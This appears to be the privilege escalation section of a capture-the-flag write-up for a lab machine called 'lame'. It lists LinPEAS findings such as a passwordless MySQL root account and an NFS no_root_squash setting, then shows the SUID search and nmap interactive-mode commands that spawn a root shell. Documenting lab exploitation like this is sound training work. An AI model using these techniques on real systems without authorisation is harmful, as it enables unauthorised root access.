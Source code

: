 ## Privilege Escalation

Getting root should have been very easy. The vulnerability was in one of the first thing I looked at usually. But for some reason I did not do it this time. 

I looked all over the server. But did not see anything of interest. I uploaded LinPEAS and ran it. It flagged a few things. 

There was a mysql server running with no password for the root user. I connected to the server and looked around. There was a few databases. I found an MD5 password hash that I reversed. But the password did not work anywhere. 

LinPEAS also saw the NFS configuration with [no_root_squash](https://book.hacktricks.xyz/linux-unix/privilege-escalation/nfs-no_root_squash-misconfiguration-pe).


I kept looking at the LinPeas result and I finally saw what I should have looked at first. nmap had the suid bit set. 

I usually start by checking for this exact thing when I try to escalate my privileges.

```bash
daemon@lame:/home/makis$ find / -perm /u=s 2>/dev/null

...
/usr/bin/chfn
/usr/bin/nmap
/usr/bin/chsh
...

daemon@lame:/home/makis$ ls -l /usr/bin/nmap
ls -l /usr/bin/nmap
-rwsr-xr-x 1 root root 780676 Apr  8  2008 /usr/bin/nmap
```

This mean that when I run nmap, it runs with root privileges. If I can use it to run a command for me, it will be done as root. 

I went to [GTFOBins](https://gtfobins.github.io/gtfobins/nmap/) and found that nmap has an interactive mode. I used it to launch bash as root.

```bash
daemon@lame:/home/makis$ nmap --interactive
nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help

nmap> !/bin/bash -p
!/bin/bash -p

bash-3.2# whoami
whoami
root

bash-3.2# cat /root/root.txt
cat /root/root.txt
REDACTED
```
